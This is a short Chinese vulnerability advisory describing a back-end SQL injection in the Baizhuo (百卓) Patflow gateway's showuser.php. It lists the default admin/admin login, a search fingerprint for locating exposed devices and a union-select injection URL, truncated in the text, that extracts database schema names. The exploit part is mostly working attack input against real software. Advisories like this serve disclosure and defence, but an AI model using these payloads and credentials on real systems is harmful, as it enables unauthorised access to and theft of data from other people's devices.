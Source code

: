# 百卓 Patflow showuser.php 后台SQL注入漏洞

## 漏洞描述

百卓 Patflow showuser.php文件参数过滤不充分，导致后台存在SQL注入漏洞

## 漏洞影响

```
百卓 Patflow
```

## 网络测绘

```
"Patflow"
```

## 漏洞复现

登录页面

![image-20220519183747439](./images/202205191837588.png)

默认口令登录后台 admin/admin

存在漏洞的文件为 shwouser.php,验证POC为

```
/user/showuser.php?id=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,(select%20group_concat(SCHEMA_NAME)%20f
```

![image-20220519183758066](./images/202205191837110.png)